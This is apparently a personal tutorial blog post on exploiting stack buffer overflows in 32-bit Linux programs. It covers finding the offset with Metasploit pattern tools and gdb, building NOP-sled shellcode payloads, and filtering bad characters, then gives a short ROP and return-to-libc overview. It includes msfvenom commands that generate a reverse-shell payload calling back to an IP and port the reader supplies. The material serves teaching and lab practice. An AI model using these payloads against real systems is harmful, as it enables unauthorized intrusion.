```yaml
---
title: Notes | Reverse | BOF
author: BatBato
date: 2022-12-07
categories: [Notes, Reverse, BOF]
tags: [Reverse, BOF]
permalink: /Notes/Reverse/BOF
---
```


# Buffer Overflow

From here I'm assuming that you already know a bit about ASM (```mov```, ```call```, ```lea```...). If you don't there is a good introduction in [here](https://cloud.isi.insa-cvl.fr/s/qWmEqLkSGXnkLZn).

So basically, the buffer overflow attack appears when you don’t pay attention to the user input and that he gives you a greater input that what you expected. This surplus will overwrite the memory.

We need to keep in mind the endianness of the program. If for example, we have a word ```\xAA\xBB\xCC\xDD``` at the address ```0xffff0000```, then depending on the endianness the word will be read differently :

| Memory Address | 	0xffff0000 | 	0xffff0001 | 	0xffff0002 | 	0xffff0003 |
|---|---|---|---|---|
| Big-Endian 	|AA | 	BB | 	CC | 	DD |
| Little-Endian | 	DD | 	CC | 	BB | 	AA |

What we would like to do is to give a greater input than the one expected so that we overwrite the return address of the program. Thanks to that, we will be able to call another function or something else in the memory. Here is an image that shows basically what we want to do :

![image](https://user-images.githubusercontent.com/73934639/206201166-ef62b19e-10da-4ae2-a3b5-d7139375b54f.png){: width="300" height="100" }

At first, we will try to find the main function and its address. For that, we can use gdb or radar2. I will continue this explanation using gdb syntax but it is basically the same on r2. We will run the program until we get to the input part, when we get there we can input a large number of ```A``` and if we inputed enought A, we should get a :
```sh
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

The ```41``` are the hexadecimal value of ```A```. Now that we know that we overwrote the return address we need to find how much ```A``` we need to input before getting a segmentation fault. We can use the ```pattern_offset``` tool of ```metasploit``` to generate a random string of certain length so we don't have a bunch of ```41``` in the memory. We can use it as follows:
```sh
pattern_create.rb -l 1200
```

> This program should be in the ```metasploit-framework``` folder. On my computer it is located at ```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb```.
{: .prompt-info }

We can use the gdb command to find the address of ```EIP``` (respectively ```RIP``` depending on the architecture) :
```sh
info registers eip
```

With this information you can use the metasploit ```pattern_offset.rb``` tool to find the exact offset. Or if you are good in ASM you can look what is the length of the word you give in input. You can use the tool as follows (where 0xaabbccdd is the address of EIP you found earlier):
```pattern_offset.rb -q 0xaabbccdd```

> You can find ```pattern_offset.rb``` in ```/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb```.
{: .prompt-info}

We will assume that we have an offset of 64 for the rest of the demonstration. Now we can run the program again with the offset length as input and 4 bytes of "B"s. 4 is the size of the return address (here in 32 bi ELF). Here is an example:
```sh
"A" * 64 + "B"*4
```

You can use this python command to generate your strings: 
```sh
python -c "print 'A' * 64 + 'B' * 4"
```

With this input we should only have the 4 "B"s as EIP address like:
```sh
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

For this first part of BOF, we will use [msfvenom](https://www.kali.org/tools/metasploit-framework/#msfvenom). To create a reverse shell payload, we can use the following command:
```sh
msfvenom -p linux/x86/shell_reverse_tcp LHOST=IP lport=PORT --platform linux --arch x86 --format python
```

> Don't forget to replace ```IP``` with yours. Same for the ```PORT```.
{: .prompt-tip}

Now if this is too long you can change it to a simple shell instead of a reverse one.
The composition of our final payload will be:
```python
Buffer = "C" * (64 - 10 - 40 - 4) = 10
NOPs = "\x90" * 10
Shellcode = "A" * 40
EIP = "B" * 4
```

> ```\x90``` is the hexadecimal value of the ```NOP``` instruction.
{: .prompt-tip}

## Bad Characters

Your payload may not work because of some ```Bad Characters```. They are generaly ```\x00``` (Null byte),```\x0A``` (Line Feed),```\x0D``` (Carriage Return),```\xFF``` (Form Feed).

Here is the list of all chars from ```\x00``` to ```\xFF```:
```python
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

You can remove the NOPs and the shellcode from the previous payload and replace them by this list. If the list is too long (256 chars) you can do it multiple time with different parts of the list. Now you can set a breakpoint just after the input so that we can analyse the memory. When the program hits the breakpoint, we can look at the ```EIP``` like that ```x/2000xb $esp+500```. We will see a bunch of ```0x43``` (our "C"s). At the end of our "C"s we should see the characters of our previous list. If a character isn't printed out, it means that it is a bad character. You can repeat those steps until you removed all the bad characters.

> Don't forget to change the number of "C"s when you remove a bad character from the list. The number of "C"s should increase by one each time you remove a bad character.
{:.prompt-warning}

You can now use the previous ```msfvenom``` command specifying all bad characters:
```sh
msfvenom -p linux/x86/shell_reverse_tcp lhost=IP lport=PORT  --arch x86 --platform linux --format python --bad-chars "\x00\x09\x0a"
```

## Identification of the Return Address

Now we should replace our 4 "B"s by the address of our shellcode. For that we need to analyse the memory. We can do so like:
```sh
x/2000xb $esp+1400
```

We will see where our NOPs (```0x90```) end and where our shellcode begins. For example, if the NOPs end at ```0xffffaabb```, then we will replace our 4 "B"s by ```\xbb\xaa\xff\xff```. To be more accurate we can choose an address that is full of NOP a bit before ```0xffffaabb```like ```0xffffaaaa``` for example.

# ROP chain attack

A ROP (Return-Oriented Programming) chain is a technique used in exploitation of memory safety vulnerabilities, where an attacker controls the flow of execution by chaining together small code snippets (gadgets) found within the program itself or its libraries.

The attacker constructs a ROP chain by overwriting the return address of a function with the address of a ROP gadget, which performs some actions (such as setting up a register or stack) before returning to the next gadget in the chain. The attacker repeats this process until the final gadget transfers control to the attacker's payload (such as executing shellcode).

You can find [here](https://github.com/Nouman404/nouman404.github.io/blob/main/_posts/Notes/Reverse/exploit.py) a code for a basic ```ROP chain attack```. As you can see, I used as offset ```0x40+4```. The ```0x40``` can be found in the code using ```gdb``` here ```add    esp,0x4``` and the ```+4``` is because of the file is a ```ELF 32-bit``` format.

> To know if the file is either a 32 or 64 bit ELF executable you can use the ```file``` Linux command like:
> ```file VULN_EXECUTABLE```
{: .prompt-tip }


You can find the ```system``` call and the address of ```/bin/sh``` by using the search command like ```search /bin/sh``` or by using ```info proc mapping``` to print the range of addresses of your program and the libc. After using the ```info proc mapping```, you can use the find command as follows ```find 0xf7c00000, 0xf7e22000, "/bin/sh"```. The two addresses you see are the range of addresses where we want to search the ```/bin/sh```.

> It may be better to look only on addresses of the program and after that only on the libc addresses. Searching in both addresses may cause errors.
{: .prompt-tip }

> You may need to use ```return to libc``` to recover those addresses if the program uses Data Execution Prevention (DEP) and Address Space Layout Randomization (ASLR).
{: .prompt-tip }

You can also look at this really great [video](https://www.youtube.com/watch?v=i5-cWI_HV8o) of John Hammond about ROP chain attack. He explains more in detail how to use the ```return to libc```.
